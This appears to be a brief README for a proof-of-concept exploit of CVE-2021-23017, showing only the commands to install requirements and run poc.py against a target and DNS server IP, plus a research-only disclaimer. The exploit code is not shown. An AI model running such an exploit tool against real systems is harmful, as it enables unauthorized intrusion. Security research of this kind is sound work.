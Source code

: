 # CVE-2021-23017-PoC


```
pip install -r requirements.txt
python3 poc.py --target 172.1.16.100 --dns_server 172.1.16.1
```

![.](poc_2.gif)

This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.
